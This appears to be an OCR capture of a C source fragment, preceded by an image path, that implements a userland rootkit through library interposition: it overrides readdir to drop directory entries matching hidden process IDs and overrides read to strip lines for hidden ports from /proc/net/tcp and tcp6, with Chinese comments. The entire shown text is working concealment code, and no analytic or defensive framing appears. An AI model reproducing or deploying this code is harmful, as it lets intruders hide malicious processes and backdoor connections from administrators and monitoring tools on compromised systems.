      struct dirent *readdir(DIR *dirp) {
         static struct dirent *(*orig_readdir)(DIR *) = NULL;
         if (!orig_readdir) orig_readdir = dlsym(RTLD_NEXT, "readdir");
     
         struct dirent *entry;
         while ((entry = orig_readdir(dirp)) != NULL) {
             if (match(entry->d_name, hide_pids)) continue;
             return entry;
         }
         return NULL;
     }
     
     ssize_t read(int fd, void *buf, size_t count) {
         static ssize_t (*orig_read)(int, void *, size_t) = NULL;
         if (!orig_read) orig_read = dlsym(RTLD_NEXT, "read");
     
         ssize_t n = orig_read(fd, buf, count);
         if (n <= 0) return n;
     
         // 获取当前打开的文件路径
         char path[256], file[256];
         snprintf(path, sizeof(path), "/proc/self/fd/%d", fd);
         ssize_t len = readlink(path, file, sizeof(file)-1);
         if (len == -1) return n;
         file[len] = '\0';
     
         // 只处理网络连接文件
         if (strstr(file, "/proc/net/tcp") || strstr(file, "/proc/net/tcp6")) {
             char *newbuf = malloc(n);
             if (!newbuf) return n;
             char *line = strtok(buf, "\n");
             size_t offset = 0;
             while (line != NULL) {
                 int hide = 0;
                 for (int i = 0; hide_ports[i] != NULL; ++i) {
                     if (strstr(line, hide_ports[i])) {
                         hide = 1;
                         break;
                     }
                 }
                 if (!hide) {
                     int written = snprintf(newbuf + offset, n - offset, "%s\n", line);
                     offset += written;
                 }
                 line = strtok(NULL, "\n");
             }
             memcpy(buf, newbuf, offset);
             free(newbuf);
             return offset;
         }
     
         return n;
     }
     ```
